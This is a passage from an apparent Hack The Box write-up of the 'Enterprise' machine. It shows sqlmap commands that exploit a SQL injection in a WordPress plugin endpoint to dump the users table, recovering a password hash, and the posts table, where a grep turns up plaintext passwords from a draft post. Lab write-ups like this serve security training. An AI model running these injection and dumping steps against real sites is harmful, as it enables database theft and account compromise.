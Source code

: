 ```bash
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+



┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_users -C ID,user_login,user_pass --dump

<SNIP>

Database: wordpress
Table: wp_users
[1 entry]
+----+---------------+------------------------------------+
| ID | user_login    | user_pass                          |
+----+---------------+------------------------------------+
| 1  | william.riker | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. |
+----+---------------+------------------------------------+
```

It successfully extract the password(hash) for `william.riker`.
The user `william.riker` is the one we found before with `wpscan`.

I tried to crack it using `hashcat` but it was not crackable...

Since none of the hashes found are not crackable, I tried to retrieve the post from `wp_posts` table.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_posts -C post_content --dump

<SNIP>

[06:06:14] [INFO] table 'wordpress.wp_posts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv'    
[06:06:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'
```

It was so large to dump, but I could find some passwords in some of the posts.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat /home/kali/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv.1 | grep password
ID,guid,pinged,to_ping,post_date,post_name,post_type,menu_order,post_title,ping_status,post_author,post_parent,post_status,post_content,post_excerpt,comment_count,post_date_gmt,post_modified,post_password,comment_status,post_mime_type,post_modified_gmt,post_content_filtered
66,http://enterprise.htb/?p=66,<blank>,<blank>,2017-09-06 15:40:30,<blank>,post,0,Passwords,open,1,0,draft,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,0000-00-00 00:00:00,2017-09-06 15:40:30,<blank>,open,<blank>,2017-09-06 14:40:30,<blank>
67,http://enterprise.htb/?p=67,<blank>,<blank>,2017-09-06 15:28:35,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:28:35,2017-09-06 15:28:35,<blank>,closed,<blank>,2017-09-06 14:28:35,<blank>
```